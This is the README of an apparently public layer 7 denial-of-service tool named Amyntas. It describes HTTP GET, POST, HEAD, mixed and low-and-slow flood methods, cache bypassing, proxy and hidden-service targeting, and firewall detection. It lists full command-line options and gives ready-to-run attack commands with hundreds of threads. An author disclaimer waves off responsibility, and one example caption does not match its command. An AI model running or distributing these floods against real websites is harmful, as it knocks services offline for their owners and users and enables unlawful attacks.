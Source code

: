 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know!

--- 

### About
Current version: 1.0.1, full rewrite of the old version. <br>
Amyntas is a layer 7 DoS toolkit, with a wide variety of attack methods and the capabilities to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- GET (simple GET flood)
- HEAD (simple HEAD flood)
- POST (simple POST flood)
- FAST (a <strong>GET /</strong> flood)
- GHP/GETHEADPOST (a flood which randomly chooses GET, HEAD or POST as request method)
- LEECH (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- MIX (a method which randomly chooses HTTP request methods)

---

### Features
1. IPv6 support
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxies coming soon)

---

### Known bugs/problems
1. Attack does not end when you want it to end

---

### To Do list
1. More methods
2. More documentation

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://pornhub.com)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve PROXY_RESOLVE          Resolve host using proxy (needed for hidden service targets)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its dynamic
-ref REFERER, --referer REFERER        Referer to use when attacking, else its dynamic
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info for devs
-bc, --bypass-cache                    Bypass the cache of the site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 40
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

---

### Requirements

```
requests
argparse
colorama
threading
netaddr
```